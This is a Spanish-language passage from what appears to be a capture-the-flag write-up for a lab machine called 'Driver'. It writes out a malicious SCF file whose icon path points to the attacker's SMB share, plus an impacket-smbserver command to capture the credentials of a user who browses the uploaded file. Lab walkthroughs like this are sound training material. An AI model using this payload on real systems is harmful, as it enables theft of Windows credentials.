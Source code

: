![](/assets/img/Driver/image_3.png)

## Web Exploitation

Como pone que el `usuario` está `revisando` los `archivos` que subimos podríamos subir un archivo `scf` malicioso [https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/). Vamos a crearnos una archivo llamado `pwned.scf` con el siguiente contenido

```
[Shell] 
Command=2
IconFile=\\10.10.16.16\smbFolder\icon.ico
[Taskbar]
Command=ToggleDesktop
```

Antes de subir el archivo debemos `crearnos` un servidor `SMB` para que se `autentique` contra nosotros cuando el usuario vea el archivo

```
# impacket-smbserver smbFolder $(pwd) -smb2support
```

`Subimos` el `archivo` 

![](/assets/img/Driver/image_4.png)
